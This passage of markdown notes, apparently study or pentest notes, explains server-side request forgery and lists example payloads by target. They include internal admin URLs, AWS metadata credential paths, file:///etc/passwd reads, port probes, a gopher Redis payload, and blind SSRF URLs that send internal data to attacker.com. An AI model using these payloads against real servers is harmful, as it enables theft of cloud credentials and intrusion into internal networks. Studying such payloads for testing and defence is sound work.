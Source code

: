         - **Port Scanning:** By iterating through internal IP addresses and ports, an attacker can map out the internal network's services.
            
        - **Scheme Abuse:** Using `file:///` to read local files, `gopher://` to interact with internal services like Redis, FastCGI, or databases, or `ftp://`/`smb://` to interact with file shares.
            
        - **Firewall Bypass:** The server can bypass firewall rules that restrict direct access from the internet to internal systems, as the request originates from within the trusted internal network.
            
- **Payload examples (categorized by target/schema):**
    
    - **Internal Web Servers/APIs:**
        
        - `http://localhost/admin`
            
        - `http://127.0.0.1/dashboard`
            
        - `http://192.168.1.100/api/users`
            
    - **Cloud Metadata Services (AWS EC2):**
        
        - `http://169.254.169.254/latest/meta-data/`
            
        - `http://169.254.169.254/latest/meta-data/iam/security-credentials/`
            
        - `http://169.254.169.254/latest/dynamic/instance-identity/document`
            
    - **Local File Inclusion (using `file://` scheme):**
        
        - `file:///etc/passwd` (Linux)
            
        - `file:///C:/Windows/System32/drivers/etc/hosts` (Windows)
            
    - **Port Scanning:**
        
        - `http://localhost:22` (If the server tries to connect, a connection error might indicate the port is open, or a timeout for a closed port)
            
        - `http://127.0.0.1:8080/`
            
    - **Gopher Protocol Abuse (e.g., for Redis interaction):**
        
        - `gopher://localhost:6379/_*1%0D%0A$4%0D%0AINFO%0D%0A` (Basic Redis INFO command)
            
        - More complex gopher payloads can interact with FastCGI, SQL databases, etc., by crafting raw TCP requests.
            
    - **Blind SSRF (out-of-band interaction):**
        
        - `http://attacker.com/log?data=internal_info` (server fetches attacker's URL, sending internal info in query string)
            
        - `http://attacker.burpcollaborator.net/` (triggers a DNS lookup and HTTP request to Burp Collaborator, confirming the SSRF)
            
- **Tools used:**
    
    - **Burp Suite (especially Burp Collaborator):** Essential for detecting blind SSRF and for crafting/testing payloads.
        
    - **`curl`:** For manual testing of HTTP/S requests from your machine to identify potential SSRF parameters.
        